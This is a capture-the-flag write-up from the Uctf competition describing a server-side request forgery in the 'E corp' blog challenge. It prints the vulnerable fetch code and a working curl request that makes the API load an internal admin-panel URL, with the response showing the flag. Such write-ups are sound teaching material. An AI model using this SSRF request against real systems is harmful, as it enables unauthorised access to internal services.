 <h1>Writeup for Uctf</h1>

I played Uctf with the Cyber_jedi team.I solved two challenges.

- E corp
- Captcha | 1
  
###ECORP

![Image](https://github.com/SENSEIXENUS2/Ctf-writeupsScripts/blob/main/assets/Images/Uctf.jpg)
   
   
   In this web challenge,the website allows access to posts made by users.So,I viewed the source code and discovered a vulnerable code snippet in the api endpoint <u>'/api/view.php'</u> code.The main task in the challenge is to load a website that can't be accessed outside i.e if not connected to their network
The vulnerable code snippet is

  
    <script>
        const API_PATH = '/api/view.php';

        async function fetchPost(id) {
            const fetchResult = await fetch(API_PATH, {
                method: 'POST',
                cache: 'no-cache',
                headers: {
                    'Content-type': 'application/json'
                },
                body: JSON.stringify({ post: `file:///posts/${id}` })
            });

The api receives a request containing json data and uses the file:/// wrapper to load post already saved with a user's id
The api endpoint code loads any url submitted to it without any form of restrictions and it makes it susceptible to Server Side Request Forgery which occurs when a website is induced to load a particular url.I gained access to the websit
e by using the vulnerable endpoint to access it via Curl.  
   
    curl https://ecorpblog.uctf.ir/api/view.php -v -X POST --header 'Content-Type:application/json' -d '{"post": "http://admin-panel.local/"}'

    ####RESPONSE#####
    * Using Stream ID: 1
    > POST /api/view.php HTTP/2
    > Host: ecorpblog.uctf.ir
    > User-Agent: curl/8.2.1
    > Accept: */*
    > Content-Type:application/json
    > Content-Length: 37
    * TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
    * TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
    * old SSL session ID is stale, removing
    < HTTP/2 200
    < date: Sun, 03 Sep 2023 13:33:41 GMT
    < content-type: application/json
    < content-length: 50
    < vary: Accept-Encoding
    < x-powered-by: PHP/7.2.34
    < x-xss-protection: 1; mode=block
    < server: ArvanCloud
    < x-sid: 4101
    < server-timing: total;dur=98
    < x-request-id: b72a53f22b5cf18d0b1bb14a5cf75106
    < accept-ranges: bytes
    <
    * Connection #1 to host ecorpblog.uctf.ir left intact
    {"status":"success","post":"uctf{4z174_1n_urm14}"}


